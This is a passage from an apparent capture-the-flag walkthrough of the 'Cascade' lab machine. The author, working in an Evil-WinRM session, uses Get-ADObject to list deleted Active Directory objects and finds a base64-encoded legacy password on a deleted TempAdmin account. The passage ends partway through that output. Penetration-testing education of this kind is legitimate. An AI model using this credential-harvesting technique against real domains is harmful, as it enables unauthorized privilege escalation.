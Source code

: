 We are in the group `AD Recycle Bin`. A few Google research lead us to
[a Microsoft article about AD recycle bin](https://docs.microsoft.com/en-us/archive/blogs/askds/the-ad-recycle-bin-understanding-implementing-best-practices-and-troubleshooting).

We execute the Powershell command to list the deleted objects and see some
`cascadeLegacyPwd` filed for the user `TempAdmin`.

    :::text
    *Evil-WinRM* PS C:\Users\arksvc\Desktop>  Get-ADObject -filter 'isdeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -property *

    <SNIP>

    CanonicalName                   : cascade.local/Deleted Objects/User
                                      DEL:746385f2-e3a0-4252-b83a-5a206da0ed88
    CN                              : User
                                      DEL:746385f2-e3a0-4252-b83a-5a206da0ed88
    Created                         : 1/26/2020 2:34:31 AM
    createTimeStamp                 : 1/26/2020 2:34:31 AM
    Deleted                         : True
    Description                     :
    DisplayName                     :
    DistinguishedName               : CN=User\0ADEL:746385f2-e3a0-4252-b83a-5a206da0ed88,CN=Deleted Objects,DC=cascade,DC=local
    dSCorePropagationData           : {1/1/1601 12:00:00 AM}
    instanceType                    : 4
    isDeleted                       : True
    LastKnownParent                 : CN={A403B701-A528-4685-A816-FDEE32BDDCBA}\0ADEL:ff5c2fdc-cc11-44e3-ae4c-071aab2ccc6e,CN=Deleted Objects,DC=cascade,DC=local
    Modified                        : 1/26/2020 2:40:52 AM
    modifyTimeStamp                 : 1/26/2020 2:40:52 AM
    msDS-LastKnownRDN               : User
    Name                            : User
                                      DEL:746385f2-e3a0-4252-b83a-5a206da0ed88
    nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
    ObjectCategory                  :
    ObjectClass                     : container
    ObjectGUID                      : 746385f2-e3a0-4252-b83a-5a206da0ed88
    ProtectedFromAccidentalDeletion : False
    sDRightsEffective               : 0
    showInAdvancedViewOnly          : True
    uSNChanged                      : 196700
    uSNCreated                      : 196690
    whenChanged                     : 1/26/2020 2:40:52 AM
    whenCreated                     : 1/26/2020 2:34:31 AM

    accountExpires                  : 9223372036854775807
    badPasswordTime                 : 0
    badPwdCount                     : 0
    CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                      DEL:f0cc344d-31e0-4866-bceb-a842791ca059
    cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
    CN                              : TempAdmin
                                      DEL:f0cc344d-31e0-4866-bceb-a842791ca059
    codePage                        : 0
    countryCode                     : 0
    Created                         : 1/27/2020 3:23:08 AM
    createTimeStamp                 : 1/27/2020 3:23:08 AM
    Deleted                         : True
    Description                     :
    DisplayName                     : TempAdmin
    DistinguishedName               : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
    dSCorePropagationData           : {1/27/2020 3:23:08 AM, 1/1/1601 12:00:00 AM}
    givenName                       : TempAdmin
    instanceType                    : 4
